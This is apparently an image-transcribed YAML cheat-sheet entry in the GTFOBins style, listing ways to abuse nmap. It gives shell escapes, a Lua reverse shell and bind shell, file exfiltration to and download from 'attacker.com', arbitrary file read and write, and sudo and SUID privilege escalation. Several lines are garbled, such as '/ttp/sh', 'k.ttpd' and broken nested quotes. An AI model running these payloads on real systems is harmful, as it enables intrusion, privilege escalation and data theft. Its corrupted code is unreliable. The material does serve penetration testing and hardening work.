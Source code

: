 ```yaml
---
functions:
  shell:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/ttp/sh")' > $TF
        nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        nmap --interactive
        nmap> !sh
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp)
        echo 'local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        while true do
          local r,x=t:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));t:send(b);
        end;
        f:close();t:close();' > $TF
        nmap --script=$TF
  non-interactive-ttpd-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.ttpd("*",os.getenv("LPORT")));
        local c=s:accept();
        while true do
          local r,x=c:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));c:send(b);
        end;c:close();f:close();' > $TF
        nmap --script=$TF
  file-upload:
    - description: Send a local file via TCP. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        RHOST=attacker.com
        RPORT=8080
        LFILE=file_to_send
        nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        TF=$(mktemp)
        echo 'local f=io.open(os.getenv("LFILE"), 'rb')
        local d=f:read("*a")
        io.close(f);
        local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        t:send(d);
        t:close();' > $TF
        nmap --script=$TF
  file-download:
    - description: Fetch a remote file via TCP. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        RHOST=attacker.com
        RPORT=8080
        TF=$(mktemp -d)
        LFILE=file_to_save
        nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.ttpd("*",os.getenv("LPORT")));
        local c=s:accept();
        local d,x=c:receive("*a");
        c:close();
        local f=io.open(os.getenv("LFILE"), "wb");
        f:write(d);
        io.close(f);' > $TF
        nmap --script=$TF
  file-write:
    - code: |
        TF=$(mktemp)
        echo 'lua -e 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
        nmap --script=$TF
  file-read:
    - code: |
        TF=$(mktemp)
        echo 'lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
        nmap --script=$TF
  sudo:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/ttp/sh")' > $TF
        sudo nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        sudo nmap --interactive
        nmap> !sh
  limited-suid:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/ttp/sh")' > $TF
        ./nmap --script=$TF
---
```


